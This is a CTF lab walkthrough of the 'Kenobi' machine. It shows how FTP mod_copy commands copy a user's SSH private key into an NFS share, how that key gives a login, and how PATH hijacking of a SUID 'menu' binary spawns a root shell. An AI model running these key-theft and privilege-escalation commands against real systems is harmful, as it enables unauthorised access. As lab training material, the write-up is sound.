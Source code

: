 # Kenobi

{% hint style="info" %}
A basic NFS, FTP and SMB machine. exploiting all of those will lead to an  RCE from which we can <mark style="color:red;">**manipulate a user's ssh key**</mark>.

Then for PrivEsc we will be redirecting the curl command in a binary with SUID bit enabled to spawn a shell for us using the <mark style="color:red;">**$PATH**</mark> variable. Same technique used [here ](wonderland.md)for lateral movement.
{% endhint %}

## Enumeration

### Nmap

```bash
$nmap <target-ip> -sV -sC -T4 -Pn -vv -oN kenobi-def-scan
```

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

I often jump to enumerating the FTP portal, but it lead to nothing so i went on to SMB.

### SMB

```bash
$nmap <target-ip> -p 139,445 --script=smb-enum-shares.nse,smb-enum-users.nse -T4 -Pn -vv -oN kenobi-smb-scan
```

Which leads to 3 SMB shares available:

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Which is also confirmed with :&#x20;

```bash
$smbclient -L <target-ip>
```

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

So we try to connect to it:&#x20;

```bash
$smbclient //<target-ip>/anonymous
```

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

{% hint style="warning" %}
After much struggle, it turns out that I had a problem with my internet connection. Upon changing my router everything went flawless and the download was successful.
{% endhint %}

Now reading the logs we find this:&#x20;

<figure><img src="../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

Okay the ssh keys of the user kenobi are stored in <mark style="color:purple;">/home/kenobi/.ssh/id\_rsa</mark> file.

Now we move on there's nothing else helpful in that log file.

### NFS

```
$nmap <target-ip> -p 111,2049 --script=nfs* 
```

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### FTP

Okay now we go back to the FTP server. Banner grabbing show us the version :&#x20;

<figure><img src="../.gitbook/assets/image (8).png" alt=""><figcaption></figcaption></figure>

Okay let's look for an exploit:

<figure><img src="../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Okay it's all about this mod\_copy thing.&#x20;

<figure><img src="../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (12).png" alt=""><figcaption></figcaption></figure>

Okay this exploit description is pretty self explanatory. We will aim at mounting whatever we want to a specific place we want .&#x20;

* So what do we have? the ssh key file of the kenobi user.&#x20;
* Where should we put it? In the NFS mounting directory.

Here we go.

## Foothold

So we will be using the CPFR (copy from) and CPTO (copy to) commands with the FTP server to put the <mark style="color:green;">/home/kenobi/.ssh/id\_rsa</mark> file in <mark style="color:red;">/var.</mark>

{% hint style="success" %}
It is always a good practice to copy it to the temporary directory just to keep the machine clean for other players.
{% endhint %}

```bash
$nc <target-ip> 21
<...>
SITE CPFR /home/kenobi/.ssh/id_rsa
<...>
SITE CPTO /var/tmp/id_rsa
<...>
```

```bash
$mkdir target-NFS
$sudo mount -t nfs <taget-ip>:/var ./target-NFS/ -o nolock
$cd target-NFS
```

Now we just connect to the target as kenobi using that key :smile:

```bash
$cp tmp/id_rsa /home/<user>/thm/kenobi                                                                  
$sudo chmod 600 id_rsa  

#Do not forget to unmount the NFS  
$sudo umount target-NFS    
                              
$ssh -i id_rsa kenobi@<target-ip>
```

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

## Priv Esc

{% hint style="warning" %}
This was the same technique we used on [Wonderland ](wonderland.md)machine to pivot from a user to another.
{% endhint %}

For priv esc, without directly going into automated scripts, we should look for some low hanging fruits. sudo -l gave un nill, we pass on to SUID/GUID bits.

```bash
$find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Okay a binary called menu, that's something. Let's run it&#x20;

<figure><img src="../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

Okay the status check option could lead to something, if it probes the website using a vulnerable command or anything of that sort, we could take advantage of that. Let's do some static analysis on this file (basic CTF RE/pwn scenario)

```bash
$strings /usr/bin/menu
```

<figure><img src="../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Yeah well, executing curl, but WHICH curl ? :smile: if we change the $PATH variable to something of our choice instead of that curl command, it will execute ours.

```bash
kenobi@kenobi:~$ echo /bin/sh > /tmp/curl
kenobi@kenobi:~$ chmod +x /tmp/curl 
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ /usr/bin/menu 
```

<figure><img src="../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>
